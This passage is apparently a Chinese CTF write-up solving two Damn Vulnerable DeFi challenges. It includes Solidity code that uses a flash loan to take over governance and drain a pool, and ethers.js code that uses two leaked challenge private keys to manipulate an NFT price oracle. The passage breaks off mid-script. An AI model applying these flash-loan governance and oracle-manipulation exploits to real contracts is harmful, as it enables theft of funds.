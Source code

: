 该挑战的目标是通过pool的管理机制来提走pool中的所有dvt。

该挑战包含两个合约：pool合约提供dvt进行闪电贷，而goverance合约以dvt作为治理代币，并且只有持有超过一半dvt总供应量者能提出提案，并在两天后可被执行。和5类似，通过pool的闪电贷可以使攻击者短时间成为governance的巨鲸，从而获得提案权，并提出调用pool的drainAllFunds(address)将所有资金转给攻击者的提案。这样在两天后攻击者就可以执行提案并把pool的所有资金提取出来了。
    
    function receiveTokens(address tokenAddress, uint256 tokenAmount) external {
        dvt.snapshot();
        actionId = governance.queueAction(address(pool), abi.encodeWithSignature(
        "drainAllFunds(address)",
        receiver
        ), 0);
        dvt.transfer(address(pool), tokenAmount);
    }
    
    function prepare() external {
        pool.flashLoan(dvt.balanceOf(address(pool)));
    }
    
    function attack() external {
        governance.executeAction(actionId);
    }

### 7.Compromised

挑战目标是将NFT交易所里的所有ETH提取出来。

这个我确实不会，看了题解在做的。这个是是个私钥泄露漏洞。题目中给出了两串代码，是两串私钥的十六进制数据，我们将其连接，转换成base64编码数据即可得到私钥：
    
    const privateKey = [
        '0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48',
        '0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9'
        ];

exchange的价格预言机依赖于三个价格source，并且价格取自于所有source给出价格的从小到大排序后的中位数，因此我们知道了其中两个私钥就可以操纵NFT的价格。由于我们已经知道了其中两个soucre的私钥，那么我们就可以调用价格预言机的函数，将NFT价格置为0，然后买入。之后再将价格置为exchange的ETH存量，将NFT卖出，从而达到把NFT交易所里所有ETH提取出来的目的。

    const privateKey = [
    '0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48',
    '0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9'
    ];

交易过程：
    
    //create wallet of private key
    let wallet = [new ethers.Wallet(privateKey[0],ethers.provider),new ethers.Wallet(privateKey[1],ethers.provider)];
    //get oracle include signature
    let sigOracle = [this.oracle.connect(wallet[0]),this.oracle.connect(wallet[1])];
    //change NFT price to zero
    for (let i = 0; i < 2; i++) {
    await sigOracle[i].postPrice("DVNFT", 0);
    }
    let sigExchange = this.exchange.connect(attacker);
    //buy 1 NFT of 0ETH
    tx = await sigExchange.buyOne({value:1});
    await this.exchange.on("TokenBought", async (sender, tokenId, currentPriceInWei) =>{
    //change NFT price to exchange's balance
    let amount = await ethers.provider.getBalance(sigExchange.address);
    for (let i = 0; i < 2; i++) {
    await sigOracle[i].postPrice("DVNFT", amount);
    }
    